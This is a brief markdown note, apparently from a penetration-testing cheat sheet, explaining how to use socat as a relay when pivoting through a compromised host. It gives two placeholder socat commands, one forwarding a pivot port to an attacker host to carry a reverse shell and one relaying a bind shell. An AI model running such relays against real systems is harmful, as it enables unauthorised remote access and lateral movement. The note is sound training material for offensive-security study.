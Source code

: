 # Socat Redirection

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels *without needing to use SSH tunneling*.

It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.

## Redirection with a Reverse Shell

On the pivot, we can enable redirection from the pivot on `pivot-port` to the `attacker-host` on `attacker-port`:

```shell
socat TCP4-LISTEN:<pivot-port>,fork TCP4:<attacker-host>:<attacker-port>
```

We can then use the pivot to start a reverse shell.

## Redirection with a Bind Shell

Well, it's pretty much the same as with a reverse shell, but reversed:

```shell
socat TCP4-LISTEN:<local-port>,fork TCP4:<target-host>:<target-port>
```
